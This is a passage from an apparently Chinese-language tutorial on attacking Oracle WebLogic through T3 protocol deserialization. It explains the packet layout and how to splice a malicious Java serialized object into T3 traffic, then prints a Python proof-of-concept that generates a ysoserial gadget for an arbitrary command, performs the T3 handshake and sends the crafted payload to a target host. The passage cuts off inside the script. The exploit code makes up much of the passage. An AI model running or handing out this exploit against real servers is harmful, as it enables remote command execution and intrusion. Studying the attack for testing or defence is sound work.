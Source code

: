 ![image-20220420152154076](images/12.png)

## T3协议攻击weblogic

目前已经了解了T3协议的数据交换过程，我们还需要对数据包中的二进制串有一个深入的认知，才能理解T3协议反序列化的原理。

需要知道的有：

- 每个T3的数据包中都必须包含T3协议头
- 序列化数据的头部二进制串为`ac ed 00 05`
- 数据包前4字节，标识了数据包的长度
- 长度标识后一个字节标识了该数据包是请求还是响应，01代表请求,02代表响应

![image-20220420153135831](images/13.png)

这里的`000005f0`代表数据包长度，`01`就表示请求，从`000005f0`这里到`aced0005`之前都属于第一部分

第二到第七部分内容，开头都是`ac ed 00 05`，说明这些都是序列化的数据。只要把其中一部分替换成我们的序列化数据就可以了，有两种替换方式

- 将weblogic发送的JAVA序列化数据的第二到七部分的JAVA序列化数据的任意一个替换为恶意的序列化数据。
- 将weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接

所以这里的攻击方式就明白了，我们构造第一部分正常的序列化数据（这里是非java序列化数据），然后拼接java序列化数据来作为请求主体发送，最后的poc再贴一次

```
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        # return
    header = binascii.a2b_hex(b"00000000")  # 占位，保证总长度计算正确
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")  # 固定的T3协议头，直接通过硬编码塞进去
    desflag = binascii.a2b_hex(b"fe010000")  # weblogic反序列化数据的标志
    payload = header + t3header + desflag + payload  # 拼接yso生成的payload
    payload = struct.pack(">I", len(payload)) + payload[4:]  # 通过计算出来的长度替换掉前之前占位的数据
    sock.send(payload)


if __name__ == "__main__":
    ip = "192.168.121.132"
```